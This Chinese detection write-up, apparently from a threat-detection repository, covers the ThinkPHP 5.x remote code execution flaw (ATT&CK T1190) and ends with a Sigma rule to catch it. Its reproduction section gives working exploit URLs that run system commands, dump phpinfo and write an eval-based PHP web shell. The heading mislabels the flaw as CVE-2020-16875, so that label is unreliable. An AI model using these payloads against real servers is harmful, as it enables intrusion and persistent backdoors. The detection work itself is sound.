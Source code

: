 # T1190-Thinkphp 5.x远程命令执行漏洞检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## CVE-2020-16875漏洞

### 简介

ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

### 影响版本

5.x < 5.1.31, <= 5.0.23

## 测试案例

漏洞分析及漏洞利用可参考Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>

## 检测日志

HTTP_log，访问日志也可以

## 测试复现

1.利用system函数远程命令执行

```yml
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2.通过phpinfo函数写出phpinfo()的信息

```yml
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

3.写入shell:

```yml
http://localhost:9096/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22code%22])?^%3E%3Eshell.php
```

或者

```yml
http://localhost:9096/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php echo 'ok';?>
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: Thinkphp 5.x远程命令执行漏洞
description: 通过访问日志orHttp.log检测Thinkphp 5.x远程命令执行漏洞利用行为
translator: 12306Bro
date: 2020/12/12
status: experimental
references:
    - https://www.cnblogs.com/backlion/p/10106676.html
logsource:
    category: webserver
detection:
    selection:
        c-uri:
            - '/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array'
    condition: selection
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
level: critical
```

## 备注

在具体业务场景下遇到，特记录。可以根据具体payload来判断是否为真实攻击。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>